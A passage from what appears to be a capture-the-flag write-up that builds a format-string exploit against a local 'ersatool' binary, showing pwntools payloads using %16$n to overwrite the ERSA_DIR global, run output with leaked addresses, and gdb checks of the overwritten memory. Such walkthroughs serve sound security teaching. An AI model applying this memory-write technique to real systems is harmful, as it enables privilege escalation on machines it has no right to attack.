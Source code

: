 ```

p.sendline("%16$20p".ljust(64, '.').encode() + p64(ersa_dir_addr))

```

It works:

```

oxdf@parrot$ python3 root.py 
[+] Starting local process './ersatool': pid 543293
[+] Leaked EXT address:          0x0000558319fe215f
[+] Calculated ERSA_DIR address: 0x0000558319fe20f0
[*] Switching to interactive mode
      0x558319fe20f0.........................................................\xf0 \xfe\x83U[!] ERR reading /opt/easyrsa/clients/%16$20p.........................................................\xf0 \xfe\x83U.ovpn!

print->CN=$

```

The output line has a 20 character address padded with spaces followed by periods as filler until it reaches the address I passed in, stopping a the null bytes.

I’ll change the line a bit now:

```

p.sendline("%16$20p%16$n".ljust(64, '.').encode() + p64(ersa_dir_addr))

```

Running this prints the same thing:

```

oxdf@parrot$ python3 root.py 
[+] Starting local process './ersatool': pid 545730
[+] Leaked EXT address:          0x00005640f813e15f
[+] Calculated ERSA_DIR address: 0x00005640f813e0f0
[*] Switching to interactive mode
0x5640f813e0f0....................................................\xf0\xe0\xf8@V[!] ERR reading /opt/easyrsa/clients/%16$20p%16$n....................................................\xf0\xe0\xf8@V.ovpn!

print->CN=$

```

If I attach `gdb` again (`sudo gdb -p $(pidof ersatool)`), I can see that the value of `ERSA_DIR` has changed (printed both as hex word and a string):

```

gdb-peda$ x/xg &ERSA_DIR 
0x5640f813e0f0 <ERSA_DIR>:      0x7361652f00000014
gdb-peda$ x/s &ERSA_DIR
0x5640f813e0f0 <ERSA_DIR>:      "\024"

```
